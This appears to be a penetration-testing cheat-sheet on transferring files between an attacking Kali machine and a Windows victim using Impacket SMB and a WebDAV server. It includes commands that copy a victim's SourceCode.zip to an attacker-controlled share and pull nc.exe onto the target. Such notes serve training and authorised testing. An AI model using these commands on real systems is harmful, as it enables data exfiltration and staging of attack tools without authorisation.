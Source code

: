 ## SMB

### Both ways

#### Attacking machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder` or `sudo impacket-smbserver share -smb2support /tmp/smbshare`
- We can specify `-username user -password pass` if we need set up an authentication

#### Target machine

- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OF-ATTACKING-MACHINE\SHARENAME` 
- If we want to get a file to our target from the attacking machine we just need to `copy \\192.168.220.133\share\nc.exe`
- Sometimes on windows we will be asked to use a service that requires authentication so we can set this up with `net use \\<network-location>\<some-share> password /USER:username` after this we will be able to use the previous copy command

### run SMB over HTTP with WebDav

> If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.

To set up our WebDav server, we need to install two Python modules, wsgidav and cheroot  

- `sudo pip install wsgidav cheroot`
- `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous` Using the WebDav Python module

- Connect to the Webdav share

- `dir \\192.168.49.128\DavWWWRoot` Now we can attempt to connect to the share using the DavWWWRoot directory

> Note: DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.
> You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

- Upload file using smb

```dos
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

## Metasploit

### From attack machine to Target

There is an upload and download feature
